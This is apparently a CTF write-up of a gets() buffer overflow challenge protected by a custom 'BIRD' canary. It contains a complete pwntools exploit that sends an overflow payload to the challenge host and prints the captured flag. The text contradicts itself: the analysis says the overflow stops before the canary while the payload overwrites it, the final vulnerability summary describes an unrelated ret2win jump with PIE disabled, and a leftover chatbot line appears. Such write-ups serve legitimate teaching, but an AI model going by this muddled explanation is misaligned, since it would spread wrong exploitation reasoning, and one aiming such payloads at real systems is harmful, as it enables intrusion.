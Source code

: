 # Canary in the Bitcoin Mine - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/CanaryInTheBitcoinMine.gif)

---

## Challenge Summary

This challenge simulates a buffer overflow scenario protected by a stack canary. The program reads user input into a fixed-size buffer using the unsafe gets() function. The buffer is followed by a canary value (0x44524942, representing "BIRD"), and a boolean flag earnedFlag.

If the input overwrites the canary, the program detects the corruption and exits. To earn the flag, the attacker must carefully overflow the buffer without corrupting the canary, and set the earnedFlag variable to true. Once set, the hidden win() function is triggered to print the flag from flag.txt.

## Binary Information

```bash
$ file canary_in_the_bitcoin_mine
```

![Alt text](img/2.png)

```bash
$ pwn checksec canary_in_the_bitcoin_mine
```

![Alt text](img/3.png)

---

## Static Analysis (CLION - JetBrains)

Here’s a **Static Analysis (CLion - JetBrains)** section based on your code:

---

## Static Analysis (CLion - JetBrains)

- The program declares a local struct `mineshaft` containing a 64-byte buffer `mine`, a 4-byte canary (`canary`), and a boolean flag (`earnedFlag`).
- The `gets()` function is used to read user input into `mine` without bounds checking, making it vulnerable to buffer overflow.
- The canary is initialized to `0x44524942` (`"BIRD"` in little-endian) and checked after input to detect overflow.
- If the canary value is modified, the program exits immediately.
- The boolean flag `earnedFlag` is initially `false`. The program checks it after input and calls `win()` to print the flag only if this flag is set to `true`.
- The overflow vulnerability can be exploited by overwriting memory **past the buffer but before the canary** to control `earnedFlag` without corrupting the canary.
- CLion’s debugger can help visualize the memory layout, allowing precise calculation of overflow offsets to manipulate `earnedFlag` safely.

This analysis highlights a classic **stack buffer overflow with canary protection**, requiring careful input crafting to bypass the canary check and set `earnedFlag` to gain the flag.

---

## Exploit Strategy

Use a carefully crafted input to overflow the buffer and set the earnedFlag to true without overwriting the canary. This triggers the win() function and reveals the flag. Precise control is needed to avoid canary corruption while modifying adjacent memory.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template canary_in_the_bitcoin_mine --host host3.metaproblems.com --port 5980
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'canary_in_the_bitcoin_mine')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host3.metaproblems.com'
port = int(args.PORT or 5980)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

BUFFER = b'A' * 64
CANARY = b'BIRD'
EARNED_FLAG = b'true'

payload = flat(
        BUFFER,
        CANARY,
        EARNED_FLAG
)
io.sendline(payload)
io.recvuntil(b"Well done, you've earned the flag!")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program takes a user-supplied memory address and directly jumps to it. With PIE disabled, function addresses like win() are static and easy to find. This allows the user to redirect execution without any memory corruption, making it a simple ret2win vulnerability.

## Flag

```
MetaCTF{jmp1ng_t0_th3_g00d_l00t}
```
